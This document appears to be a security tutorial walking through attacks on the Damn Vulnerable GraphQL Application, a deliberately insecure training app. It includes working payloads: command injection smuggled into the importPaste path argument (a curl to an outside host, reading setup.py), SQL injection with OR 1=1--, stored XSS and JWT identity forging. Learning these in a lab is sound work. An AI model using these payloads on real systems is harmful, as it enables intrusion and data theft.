




GraphQL is an open source, data query and manipulation language for APIs. It enables serving API data for both mobile and web applications. GraphQL is an alternative to REST and grPc.
GraphQL vulnerabilities include Denial of Service, Information Disclosure, Code Execution, Injection, Authorization Bypass and File Traversal.
Damn Vulnerable GraphQL Application DVGA is a deliberately weak and insecure implementation of Graphql that provides a safe environment to learn various graphql security issues and how to test them.

## Reconnaissance

First when testing for GraphQL API is to determine it's endpoints and schema.

## Information Disclosure

These are vulnerabilities that allows an website or API to leak unintended/sensitive data to it's users. Data leaked depends on the context of the website i.e usernames, IP address, passwords and banking information.

### GraphQL Introspection

Introspection is the ability to query which resources are available in the target API schema. This enables API user to see queries, types, field, and directives it supports. Introspective queries starts with a root field that's either `__type` or `__schema` known as **meta-fields**. The `__schema` field can be used in reading API schema such as what **types** and **directives** it supports.

Below is a graphql introspection query for API where Introspection is not disabled.

```graphql
query {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    subscriptionType {
      name
    }
    types {
      kind
      name
      fields {
        name
        args {
          name
        }
      }
    }
  }
}
```

Running the above query using Altair GraphQL Client, we are able to explore custom types defined in the API GraphQL schema. These include queries, mutations and subscriptions and their types. For example some defined types include **_CreatePaste_**, **_EditPaste_**, **_ImportPaste_**, **_CreateUser_**, **_Login_** and many more as shown in figure below.



### GraphiQL Interface

To get the more information about a single type, use the `__type` meta-field. For example to query **Login**. To get results of a specific query we run queries as shown in the query below.

```graphql
query {
  __type(name: "Login") {
    name
    kind
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

Running the above query returns the fields the fields and their types as shown in the figure below.



From the results, the Login return fields are `accessToken` and `refreshToken`.

### GraphQL Field Suggestions

If the Introspection is enabled on the GraphQl API, as you type the field name, the client will be able to determine and autofill the field for you while typing as shown below.


The results shown in figure above, shows all possible fields of `pastes` object.

### Server Side Request Forgery

Server Side Request Forgery are vulnerabilities that allows an attacker to alter intended behavior of the server. An attacker may be able to make to make an outbound connection, steal internal resources of the organization, exploit internal systems not reachable from the internet and even query metadata endpoints to get secrets i.e AWS.
DVGA contains an SSRF vulnerability as a result of a code injection in the **_importPaste_** query as shown by the query below. (SSRF via code injection).

```graphql
mutation {
  importPaste(
    host: "localhost"
    port: 80
    path: "/ | curl -i https://google.com"
    scheme: "https"
  ) {
    result
  }
}
```

Run the Query above in the BurpSuite `repeater` toolkit. This enables us to replay requests sent to the server by the client.


From the figure above we able to make an outbound connection by getting google homepage. This may be an attacker controlled server to make **POST** requests to exfiltrate data from the internal organization.

### Stack Trace Errors

Stack errors that occurs due to processing of malformed requests may lead to an attacker knowing more about the host environment and software running if debug mode is enabled. This may open other attack vectors, which may lead to full system compromise.


From response above, stack error message includes API server username is `dvga`, programming language, versions, root directory etc. Leaked information, may lead for us looking for vulnerabilities with the associated software.

## OS command Injection

OS command injection is a web vulnerability that allows an attacker to execute arbitrary commands on the server running the application. OS command injection allows an attacker to fully compromise an system.

### OS Command Injection - systemDebug

systemDebug query allows user to execute the command passed an argument as shown in the schema definition.

```json
{
  "name": "systemDebug",
  "args": [
    {
      "name": "arg"
    }
  ]
}
```

Piping injection command in the arg allows us to execute more than one command at the same time. This allows us to read the content of **_/etc/passwd_** file as shown in figure below.


### OS Command Injection - importPaste

importPaste mutationQuery allows us to execute an arbitrary command through the **_path_** argument as shown in the query below.

```graphql
mutation {
  importPaste(
    host: "localhost"
    port: 80
    path: "/ | cat setup.py "
    scheme: "http"
  ) {
    result
  }
}
```

**setup.py** is a python file used for setting the configurations for a Python backend API. This may contain secrets that should accessible by the users of the API.



This allows us to leak the username and passwords associated with the users.

## Injection

Injections are vulnerabilities that allows us to pass arbitrary, unsafe data in arguments or parameters that are not safely parsed. For graphQL injection we target `Mutations`, because they are used for manipulating data in the server or database.

### Stored Cross Site Scripting

Stored XSS is a class of XSS that allows an attacker to store malformed inputs persistently in the server from the untrusted sources.

Figure below shows a DOM based title stored XSS, because there no validation of title data, this leads to XSS payload being executed when a user visits the page. Create a new paste as shown in the figure below and pass the XSS payload in the **title** argument.


Visiting **my_pastes** page, Our payload is executed and alert shown in the figure below.


To mitigate XSS, Never trust user data, always validate it.

### Log Injection

Log injection is a vulnerability that allows an attacker to inject unnecessary information to other query fields. For example in the query below we are injecting the **systemHealth** logs into the **paste** query data.

```graphql
query {
  systemHealth
  pastes {
    id
    title
    ipAddr
  }
}
```


Log injection may lead to performance issues if large amount of data is injected.

### HTML Injection

HTML injection is a web vulnerability class that allows us to inject HTML tags to the input fields. Example below shows an HTML injection which refreshes the page every 10 seconds.



### SQL Injection

SQL injection is a vulnerability that allows an attacker to manipulate queries that an application makes to database. SQL injection may lead to sensitive data leakage, delete other user's data and even bypass Authentication mechanism put in place. To test SQL injection, add a single apostrophe at the end of data to be filtered. This results to an error message as shown in the figure below.


To get all the pastes we run the following GraphQL query where the **_OR_** condition is true and comment out the rest of the query using `--`.

```graphql
query {
  pastes(public: true, filter: "One advanced diverted' OR 1=1--") {
    content
    id
    userAgent
    ipAddr
    title
    ownerId
  }
}
```

The filter argument is vulnerable to graphQL SQL injection attacks.


## Authorization Bypass

Authorization allows clients to access the data of the API securely. This enables confirmation of the identity of the user, privilege levels and resources they are only allowed to access. Authorization mechanisms can be implemented through API key, Tokens, OAuth and many more.

### JWT Token Forge

If JTW Tokens does not do any validation, an attacker may be able forge tokens in orderto access unintended resources or login as another user by manipulating token field `identity` in payload section.

From the above leaked credentials in the `setup.py` file we can use **operator** and **password123** for login in order to get tokens by running the query below.

```graphql
mutation {
  login(username: "operator", password: "password123") {
    accessToken
    refreshToken
  }
}
```

For decoding the accessToken as shown below we use JWT debugger.


By manipulating the identity field of the token, we are able to escalate the privileges from operator to admin.


JWT Token forge is possible because the server does not validate the token in each request we make.

### Interface Protection Bypass

The Interface for graphQL can be bypassed by modifying cookie value passed in the header of the request. The default cookie value is **_env=graphiql:disable_**.It can be bypassed by changing the value to **_env=graphiql:enable_**.


Changing cookie values, we are able to access graphQL interface for writing queries and mutations.
